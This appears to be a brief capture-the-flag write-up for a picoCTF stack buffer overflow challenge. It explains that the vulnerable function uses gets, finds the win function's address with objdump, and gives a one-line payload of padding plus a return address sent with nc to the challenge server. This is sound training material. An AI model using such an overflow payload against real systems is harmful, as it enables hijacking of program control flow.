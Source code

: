 - Vuln function reads 32 bytes but uses unsafe `gets` so we overflow
    `08049281`

# Writeup
- Find function address `objdump -D ./vuln | grep win`
- Exploit `printf
    'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08\n' | nc
    saturn.picoctf.net 58906`
